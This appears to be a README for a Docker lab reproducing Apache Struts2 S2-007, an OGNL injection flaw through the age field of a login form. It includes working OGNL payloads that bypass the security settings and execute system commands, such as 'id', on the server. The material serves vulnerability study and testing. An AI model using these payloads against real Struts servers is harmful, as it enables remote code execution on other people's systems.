 # S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

When dealing with the type conversion error, the error will be stored in the memory, and the OGNL expression injection will be triggered in the subsequent call flow. **There is no need to write `<ActionName> -validation.xml`**.

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

```java
import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport {
    private String username;
    private String password;
    private int age;

    public String getUsername() {
        return username;
    }

    public String getPassword() {
        return password;
    }

    public int getAge() {
        return age;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public String execute() throws Exception{
        if (this.username == null || this.password == null) {
            return "failed";
        }

        if (this.username.equals("admin") && this.password.equals("admin")) {
            return "success";
        }

        return "failed";
    }
}
```

When the user submits age as a string instead of an integer value, the backend uses code to splice `"'" + value + "'"` and then perform OGNL expression analysis on it.

Test POC：
```
'+(#application)+'
```

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```

Visit `<host>:8080/login.action` and setup your payload.

## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:

![](1.jpeg)
